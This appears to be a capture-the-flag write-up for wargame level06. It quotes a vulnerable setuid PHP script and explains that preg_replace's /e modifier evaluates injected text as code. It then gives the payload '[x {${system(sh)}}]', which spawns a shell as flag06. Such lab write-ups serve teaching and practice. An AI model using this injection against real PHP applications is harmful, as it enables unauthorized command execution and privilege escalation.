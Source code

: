 ### Solutions

First we have a php script
```php
#!/usr/bin/php
<?php
function y($m) { 
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; 
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a; 
}
```

It takes two arguments, the first is a file, the second is useless

the preg_replace function locate and transform a portion of string via regex.  
 - the first argument is used to locate the string.
 - the second argument is used to transform the string.  
 - the third argument is the actual string.

We see that the first preg_replace in the function x, has a /e in the first arguments
this /e change the behavior of the transformation and interpret the second argument as php code 
so we can execute code as user flag06 (flag06 is the owner of the php executable)  
Lets exploit this weakness!

```console
~$ echo '[x {${system(sh)}}]' > /tmp/hack
~$ ./level06 /tmp/hack /tmp/hack
```
WE ARE IN

```console
~$ whoami
flag06
~$ getflag
```


